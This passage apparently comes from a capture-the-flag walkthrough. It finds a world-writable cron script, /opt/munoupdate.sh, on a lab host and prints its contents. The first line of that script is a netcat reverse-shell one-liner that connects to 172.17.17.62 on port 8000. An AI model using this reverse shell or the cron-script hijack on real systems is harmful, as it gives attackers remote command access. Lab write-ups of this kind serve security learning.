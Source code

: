 Interesting there is a script in crontab which runs in every minute and it has named as `munoupdate.sh`

  

Lets read the file permission and check if we can write it

```console

batman@owaspQuiz:/home/munojr$ ls -l /opt/munoupdate.sh

-rwxr-xrwx 1 munojr munojr 845 May 13 15:05 /opt/munoupdate.sh

```

Bravo!! we can write on the script then lets read first before changing it.

  

```

batman@owaspQuiz:/home/munojr$ cat /opt/munoupdate.sh

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.17.17.62 8000 >/tmp/f

#!/bin/bash

startupdate() {

echo

echo "-----------------------------------------"

echo ">>> Command Execting Was Successful. <<<"

echo "-----------------------------------------"

echo

}

start() {

echo

echo "***>>> Updating The Operating System <<<***"

echo

}

exitUpdate() {

echo

echo "-------------------------------------------------------"

echo ">>> Operating System Update Has Been Completed <<<"

echo "-------------------------------------------------------"

echo

exit 1

}

#calls the functions
```